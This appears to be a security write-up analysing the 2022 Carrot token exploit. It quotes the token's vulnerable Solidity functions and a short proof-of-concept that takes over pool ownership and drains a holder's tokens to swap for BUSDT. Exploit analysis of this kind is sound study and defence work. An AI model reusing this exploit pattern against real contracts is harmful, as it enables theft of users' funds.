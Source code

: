 # Carrot


## What's Carrot?
a rewards platform where users can earn bitcoin simply by supporting the brands and creators they love. Creators of all sorts
(writers, podcasters, open-source collectives...) can publish challenges to be carried out by their audiences and offer bitcoin for their completion.

## Amount stolen
**$31,318 BUSDT**

2022-10-10

## Vulnerability
Insufficient access control


## Analysis

The Carrot token relies on `_allowances[sender][_msgSender()].sub(amount, "ERC20: transfer amount exceeds allowance")`
to prevent unapproved token transfers,

the `sub` function in the `beforetransfer` method will subtract the `amount` from the allowance. If the subtraction results
a value less than zero indicates that the transfer amount exceeds the allowance limit and will fail.

This pattern involves the Action-Check pattern, where you act, in this case transferring tokens without explicitly checking for permission. 
The actual check is deferred to a later point in the code, the `sub` function on the allowances mapping.

This final check can be avoided if the `_msgSender()` on the `_isExcludedFromFee` mapping is set to true, 
giving the `_msgSender()` the ability to move any user's tokens at its will. 

```solidity
  function transferFrom(
    address sender,
    address recipient,
    uint256 amount
  ) public virtual override returns (bool) {
    _beforeTransfer(_msgSender(),recipient,amount);
    
    if(_isExcludedFromFee[_msgSender()]){
        _transfer(sender, recipient, amount);
        return true;
    }
    _transfer(sender, recipient, amount);
    _approve(
        sender,
        _msgSender(),
        _allowances[sender][_msgSender()].sub(
            amount,
            "ERC20: transfer amount exceeds allowance"
        )
    );
    return true;
  }
```

An address can be added to the `_isExcludedFromFee` mapping under the condition that the caller of a transfer is the owner of an 
external pool contract and the counter variable is set to 0. 
This counter variable serves as a safety measure, preventing any other party from adding their address after an exploit has executed this action.


```solidity
   function _beforeTransfer( address from,address to,uint256 amount) private{
  if(from.isContract())
  if(ownership(pool).owner() == from && counter ==0){
      _isExcludedFromFee[from] = true;
      counter++;
  }          
  _beforeTokenTransfer(from, to, amount);
}
```

The Pool address is set via the onlyOwner initPool() function on the token.


```solidity
   
```

In the concluding step, the ownership of the pool contract is established by invoking the `transReward()` function on the token.
By calling `CARROT_TOKEN.transReward(abi.encodeWithSelector(0xbf699b4b, address(this)));` with the selector `"0xbf699b4b"`, wich in English is the "change 
owner" function, and with the desired address specified as `"0x5575406ef6b15eec1986c412b9fbe144522c45ae"`.



# proof of concept (PoC) 
![euler Image](../images/euler/euler.png)


```solidity
        // Call vulnerable transReward() to set this contract as owner. No auth control
        CARROT_TOKEN.transReward(abi.encodeWithSelector(0xbf699b4b, address(this)));

        // Call transferFrom() to steal CARROT tokens using the same amount used in the exploit
        CARROT_TOKEN.transferFrom(
            0x00B433800970286CF08F34C96cf07f35412F1161, address(this), 310_344_736_073_087_429_864_760
        );

        // Swap all stolen Carrot to BUSDT
        _CARROTToBUSDT();
```




**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Carrot_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
